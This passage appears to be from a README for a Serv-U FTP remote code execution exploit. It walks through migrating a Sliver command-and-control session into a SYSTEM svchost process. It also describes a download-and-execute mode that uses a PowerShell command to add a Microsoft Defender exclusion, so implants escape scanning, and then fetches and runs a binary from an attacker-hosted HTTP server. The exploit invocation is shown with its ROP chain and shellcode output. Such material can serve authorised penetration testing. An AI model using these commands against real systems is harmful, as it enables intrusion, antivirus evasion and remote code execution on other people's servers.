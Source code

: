 The first thing you should do is migrate to a different process because there's a good chance your Sliver session will die and not come back, and I don't know the root cause at time of writing.

```
sliver (ARTISTIC_PANTIES) > ps

pid   ppid  owner                         executable                   session
===   ====  =====                         ==========                   =======
0     0                                   [System Process]             -1
4     0                                   System                       0
...
3872  728   NT AUTHORITY\SYSTEM           svchost.exe                  0
4868  728   BUILTIN\Administrators        Serv-U.exe                   0
4636  868   BUILTIN\Administrators        dllhost.exe                  0

sliver (ARTISTIC_PANTIES) > migrate 3872

[*] Successfully migrated to 3872
```

At this point you should have a solid Sliver session immune to the vagaries of Serv-U and this exploit.

### Download and execute mode
The most reliable mode and the least likely to get pinged by Microsoft Defender end-point security. This is because it uses a Powershell command (`powershell -Command "& {Add-MpPreference -ExclusionPath c:\windows\temp}"`) to add a directory exclusion to Microsoft Defender so that Sliver/Meterpreter/whatever binaries don't get scanned for malware. This will protect you against Windows Defender, but that's all; you'll need to account for other endpoint security technology, network IDS, etc.

On success, downloads a binary from a URL and executes it. You'll need a webserver hosting your executable file. I used Python, but please note that I'm testing on a local network without SSL. In real exploits you'll need to check your rules of engagement if you want to use unencrypted URLs.

Not for the first time: **caveat emptor**.

Run a simple HTTP listener like so:

```
% python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

With the listener running you can run the exploit:

```
% python3 serv-u-exploit2.py example.com downloadexec http://192.168.0.144:8000/calc.exe
[+] Targeting example.com:22
[+] Setting up exploit payload buffer
[+] Constructing ROP chain
[+] Adding shellcode
[+] Spraying Serv-U-FTP server @ example.com:22
[+] Sending exploit trigger payload...
[+] Done! Sometimes it takes a few runs to work - try again if it failed.
```
